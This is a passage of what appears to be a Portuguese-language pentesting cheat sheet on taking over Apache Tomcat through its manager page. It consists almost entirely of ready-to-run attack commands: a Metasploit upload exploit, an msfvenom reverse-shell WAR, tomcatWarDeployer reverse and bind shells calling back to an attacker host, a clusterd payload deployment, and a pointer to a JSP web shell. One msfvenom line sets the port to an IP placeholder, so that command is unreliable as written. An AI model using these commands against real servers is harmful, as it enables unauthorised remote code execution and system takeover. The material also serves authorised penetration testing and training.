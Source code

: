 ### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### Shell Reverso MSFVenom

1. Criar o arquivo war para implantar:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```

2. Faça o upload do arquivo `revshell.war` e acesse-o (`/revshell/`):

### Shell de ligação e reversão com [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)

Em alguns cenários, isso não funciona (por exemplo, em versões antigas da sun)

#### Download

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

#### Shell reverso

```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

#### Shell de ligação

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

### Usando [Culsterd](https://github.com/hatRiot/clusterd)

```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Método manual - Web shell

Crie **index.jsp** com este [conteúdo](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp):

